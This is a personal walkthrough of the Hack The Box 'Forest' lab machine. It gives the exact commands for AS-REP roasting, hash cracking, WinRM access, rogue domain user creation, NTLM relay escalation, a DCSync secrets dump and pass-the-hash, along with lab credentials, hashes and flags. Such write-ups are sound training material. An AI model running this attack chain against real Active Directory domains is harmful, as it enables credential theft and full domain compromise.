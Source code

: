 ```yaml
---
title:  "Hack The Box - Forest"
date:   2020-03-19
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf]
---
```

My write-up / walktrough for Forest on Hack The Box. 

# Quick summary
Today, Forest got retired and I'm allowed to publish my write-up. Forest is my second box on HTB, so still pleeeeenty of new things to learn for me ;-)

I added the box to `/etc/hosts` as `forest.htb` with it's ip `10.10.10.161`

![forest](/images/forest/forest.png)

# Enumeration
I started with 
`nmap -sV -p 1-10000 -T5 forest.htb` and revealed plenty of open ports. Well, as the box-name allready mentioned, there is an Active Directory running on it.

![nmap](/images/forest/nmap.png)

So let's try to gather some usernames. I used `legion`, added `forest.htb` as the only host to it and let it run. After a while, `smbenum` gave me the following user:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

# ASRepRoast
So let's look if one ore more users don't need preauthentication. I saved just the usernames in a textfile `user.txt`

![usernames](/images/forest/usernames.png)

and ran `sudo python3 /usr/local/bin/GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile user.txt htb.local/
` from impacket. (a great toolset, btw)

![asreproast](/images/forest/asreproast.png)
Yeah! There is the user `svc-alfresco` where I could gather a ticket of.

`GetNPUsers.py` can create a well formated file right away by passing the parameter `-format hashcat -outputfile userhash.txt`

# crack the hash

Done so, I could afterwards crack the hash with `hashcat -m18200 --force userhash.txt  /usr/share/wordlists/rockyou.txt` which gives me the credentials `svc-alfresco:s3rvice`

![hashcat](/images/forest/hashcat.png)

# Own the user...

this credentials, I could use to establish a connection with winrm (`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
`) and grab the user-flag `e5e4e47ae7022664cda6eb013fb0d9ed`.

![userflag](/images/forest/userflag.png)

# Privilege escalation

Tried with `winPEASany.exe` to escalate privilegies. The command
`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice -e .` , `menue` and `Invoke-Binary winPEASany.exe` started the process to scan forest.htb.local, but apart of some missconfiguration (disabled firewall and so on) this was a loose end to me.

## Bloodhound
I then took a deeper look into the Active Directory by gathering and displaying data for `Bloodhound` 

![bloodhound](/images/forest/bloodhound.png)

Done so, I noticed that `svc-alfresco` has the right to create user in the Active Directory. May be, I can create a user and escalate it's privilege?

![accoutoperator](/images/forest/accountoperator.png)

## User creation
To do that, I reconnected with `evil-winrm -i forest.htb -u svc-alfresco -p s3rvice` to the victim and executed there the following commands:
``` cmd
net user fab asdfasdf81 /ADD /DOMAIN
net group "Exchange Trusted Subsystem" fab /add
net group "Exchange Windows Permissions" fab /add 
```

## Dump the secrets
Now, I could try to escalate the privilegies of the new user `fab` so that I afterwards could start a `dcsync-attack`.Therefore, I used the tools `secretsdump.py` and `ntlmrelayx.py`, both from `impacket`.

First, I had to start `sudo python3 /usr/local/bin/ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user fab` and then authenticate the user by inserting the credentials on the local server. 
![ntlmrelay](/images/forest/ntlmrelaywerver.png)

![ntlmweb](/images/forest/ntlmrelayweb.png)

This started allready the necessary privilege escalation, so that I afterwards could make use of the `dcsync-attack` by executing `sudo python3 /usr/local/bin/secretsdump.py HTB.LOCAL/fab:asdfasdf81@10.10.10.161 -just-dc`

![secretdump](/images/forest/secretdump.png)

# Root the box

All I had to do now, was to execute a `pass the hash attack` which could be done again with `evil-winrm`:

`evil-winrm -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6` 

and then grab the root-flag `f048153f202bbb2f82622b04d79129cc` on admins desktop.

![root](/images/forest/root.png)

# Conclusion 
- still a lot to learn about Kerberos and Active Directory
- not sure, how *noisy* my attacks were?
- should once (or more) dig into the scripts I'm using, for better understandig of attack and defense
- box was a great pleasure :-)
- lost a lot of time due the fact, that the box got messed up in a way. Next time reset the box instead of retrying, retrying retrying....
- and finally: **Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box and to [tundr4](https://www.hackthebox.eu/home/users/profile/158160) for helping me out as I got stuck with privilege escalation.
